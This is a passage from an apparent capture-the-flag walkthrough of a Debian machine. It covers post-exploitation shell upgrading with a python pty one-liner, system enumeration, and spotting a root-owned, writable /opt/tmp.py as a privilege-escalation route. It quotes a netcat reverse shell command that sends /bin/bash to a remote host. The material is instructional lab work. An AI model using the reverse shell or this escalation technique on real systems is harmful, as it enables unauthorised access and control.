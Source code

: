 * `python -c 'import pty;pty.spawn("/bin/bash")'`

<br>
![A18](https://i.imgur.com/E8ZmR6S.png)
<br>

<br>


## 4. Enumeration

Armed with a decent shell, it's time to get some information about the system.


`cat /etc/*release*` tells us we are dealing with Debian.
Ubuntu CTFs don't like the simplest `nc` reverse shell, but vanilla Debian machines do!
I haven't memorized any of the reverse shell commands yet, but `nc local.machine.ip.addr PORT -e /bin/bash` isn't hard to remember.



`sudo -l` is worth a shot, since we have Mindy's password.<br>

Unfortunately, we find out that Mindy doesn't have access to `sudo.`This might mean we have to exploit or RevShell our way to root.


To start enumeration, we do a quick `ls` in some commonly used directories like `/home` and `/opt.`

`/home` came up empty at first glance, but `/opt` held promise.
We know the system is running `james` - so maybe there are some useful configuration files.

* `ls /opt`
* `ls -la /opt`

<br>
![A19](https://i.imgur.com/BywMsv6.png)
<br>


One of these files is noteworthy: `tmp.py`.<br>
It is owned by `root`, but we have write permissions. I smell a PrivEsc!

* `cd /opt`
* `cat tmp.py`

<br>
![A20](https://i.imgur.com/hsREnfc.png)
<br>


This script seems to just erase the contents of the `/tmp` folder.<br>
Is the `root` user expecting me to put something in there? <br>
If they didn't want us to store things in `/tmp/` I'm sure there is some other method that could prevent us from doing so.<br>
Even if we were prevented from writing to `/tmp`, we can put things in another directory like `/dev/shm`

